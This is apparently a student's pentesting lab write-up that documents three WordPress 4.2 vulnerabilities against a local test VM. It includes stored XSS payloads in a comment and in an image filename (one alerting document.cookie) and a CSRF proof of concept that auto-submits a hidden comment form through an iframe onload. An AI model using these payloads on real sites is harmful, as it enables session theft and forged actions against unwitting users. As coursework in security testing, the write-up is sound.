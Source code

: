 # Project 7 - WordPress Pentesting

Time spent: 4 hours spent in total

> Objective: Find, analyze, recreate, and document 3 vulnerabilities affecting an old version of WordPress

## Pentesting Report

### 1. Authenticated Stored Cross-Site Scripting (XSS)
  - [X] Summary: inject java script code as a comment 
    - Vulnerability types:XSS
    - Tested in version: 4.2
    - Fixed in version: 4.4
  - [X] GIF Walkthrough: ![Alt Text](https://github.com/rdiaz002/Week_7_Project_WordPress_vs_Kali/blob/master/first_exploit.gif)
  - [X] Steps to recreate: <br />
         -Leave a comment with the following content:<br />
         *\<b onmouseover="alert('This is just a vulnerability')">click me!\</b>*
         
  - [X] Affected source code:
    - [Link 1](https://github.com/WordPress/WordPress/blob/4.2-branch/wp-comments-post.php)
    
### 2. Authenticated Cross-Site Scripting with Image File
  - [X] Summary: Upload an image file with some javascript at the end of its file name
    - Vulnerability types:XSS
    - Tested in version:4.2
    - Fixed in version: 4.2.10
  - [X] GIF Walkthrough: ![Alt Text](https://github.com/rdiaz002/Week_7_Project_WordPress_vs_Kali/blob/master/second_exploit.gif)
  - [X] Steps to recreate: <br />
        -create an image file or download an image file. <br />
        -add some javascript to the end of its filename. ex.(\<img src=# onerror=alert(document.cookie)>) <br />
        -upload file to wordpress
  - [X] Affected source code:
    - [Link 1](https://github.com/WordPress/WordPress/commit/c9e60dab176635d4bfaaf431c0ea891e4726d6e0)
    
### 3. Authenticated Cross Site Request Forgery
  - [X] Summary: Create a hidden form that can be submitted by another user when the page loads. Example below leads to infinite loop. 
    - Vulnerability types: CSRF
    - Tested in version: 4.2
    - Fixed in version: 4.4
  - [X] GIF Walkthrough: ![Alt Text](https://github.com/rdiaz002/Week_7_Project_WordPress_vs_Kali/blob/master/third_exploit.gif)
  - [X] Steps to recreate: <br />
        -create a new comment that includes the javascript code for a new form <br />
        -below that comment create an iframe that will run the form when it loads <br />
        -submit comment <br />
        -refresh page <br /> 
        
        Proof of Concept:
          <form action="http://wpdistillery.vm/wp-comments-post.php" method="post" id="commentform2" class="comment-form" novalidate>
            <input name="comment" type="hidden" value="hello there">
            <input type="hidden" name="comment_post_ID" value="3" id="comment_post_ID">
            <input type="hidden" name="comment_parent" id="comment_parent" value="0">
            <input type="hidden" id="_wp_unfiltered_html_comment_disabled" name="_wp_unfiltered_html_comment" value="8bfe964cea">
           </form>

          <iframe src=# onload=document.getElementById('commentform2').submit()> </iframe>
          
         
  - [X] Affected source code:
    - [Link 1](https://github.com/WordPress/WordPress/blob/4.2-branch/wp-comments-post.php)


## Assets

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes
Challenges: 
  Continuous trial and error to test exploits. 
  upgrading and downgrading WordPress.  

## License

    Copyright [2019] [Ronuel Diaz]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
